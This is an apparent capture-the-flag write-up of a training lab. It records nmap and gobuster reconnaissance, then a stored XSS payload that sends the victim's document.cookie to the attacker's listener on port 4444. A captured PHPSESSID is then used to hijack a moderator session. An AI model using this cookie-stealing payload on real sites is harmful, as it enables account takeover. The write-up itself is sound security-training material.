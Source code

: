 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Whats Your Name?
**IP** : 10.10.219.254
**Objectives :** Get the accessing the moderator account flag and the admin panel flag
**OS :** ?

##### **Conclusion**
**Time :** 
	**Start :** 25.03.2025 18:55
	**Break at/to :** 25.03.2025 19:14 / 25.03.2025 20:04
	**Finish :** 
**Satisfaction :**  
### 1. **Reconnaissance

First #nmap scan

```BASH
map -A -p- -v 10.10.219.254
```


Output :

```BASH
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

It's a web app.

We will analyse the web app with #burpsuite 

On the port 80 we have this sitemap and we have the possibilitie to pre-register.
![[Pasted image 20250325190405.png]]

We can try to register.
One we register we have a login page but when we want to login it's say "User not verified" but we also have this :
![[Pasted image 20250325191031.png]]

But the subdomain doesn't work.

When we enter admin instead of Bobinette it's said "Invalid email or password".

We find some pages with #gobuster 

Output :

```BASH
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 1797]
/login.php            (Status: 200) [Size: 1785]
/register.php         (Status: 200) [Size: 2188]
/admin.php            (Status: 403) [Size: 0]
/upload.php           (Status: 403) [Size: 0]
/logout.php           (Status: 200) [Size: 154]
/mod.php              (Status: 403) [Size: 0]
/dashboard.php        (Status: 403) [Size: 0]
```



On the port 8081 we have nothin execpt a message who let know us that there is a login.php page.

![[Pasted image 20250325190550.png]]

We find some pages with #gobuster 

Output :

```BASH
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 70]
/login.php            (Status: 200) [Size: 3108]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/clear.php            (Status: 200) [Size: 4]
/assets               (Status: 301) [Size: 320] [--> http://worldwap.thm:8081/assets/]
/chat.php             (Status: 302) [Size: 0] [--> login.php]
/db.php               (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/setup.php            (Status: 200) [Size: 149]
/block.php            (Status: 200) [Size: 15]
/logs.txt             (Status: 200) [Size: 0]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://worldwap.thm:8081/phpmyadmin/]
/change_password.php  (Status: 302) [Size: 4] [--> login.php]
/server-status        (Status: 403) [Size: 279]
```

## 2. **Weaponization

```JS
<script>  
var img = new Image();  
img.src = ‘http://10.10.235.199:4444/stealcookies?’+ document.cookie;  
</script>
```

## 3. **Delivery

![[Pasted image 20250325203616.png]]

We enter this payloads for see if we can steal a user cookie. With an #XSS

## 4. **Exploitation

With our exploit with the #XSS doesn't work.
But after a few second a PHPSESSID just appear.

```BASH
root@ip-10-10-235-199:~# python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
10.10.53.234 - - [25/Mar/2025 19:38:03] code 404, message File not found
10.10.53.234 - - [25/Mar/2025 19:38:03] "GET /stealcookies?PHPSESSID=16qkgn0k0sehun9gjmsiiedthj HTTP/1.1" 404 -
```

And by changing ou PHPSESSID and go to `dashboard.php` it's show this :
![[Pasted image 20250325204238.png]]


On the page `mod.php` we can activate our account.
## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives